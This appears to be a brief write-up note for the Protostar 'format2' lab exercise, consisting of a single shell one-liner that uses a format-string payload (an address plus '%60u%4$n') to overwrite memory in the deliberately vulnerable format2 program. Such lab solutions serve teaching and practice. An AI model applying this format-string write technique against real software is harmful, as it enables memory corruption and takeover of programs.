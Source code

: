 ## protostar-format2

## http://exploit-exercises.com/protostar/format2

```

echo -ne $(python -c 'print "\xe4\x96\x04\x08"')%60u%4\$n | ./format2

```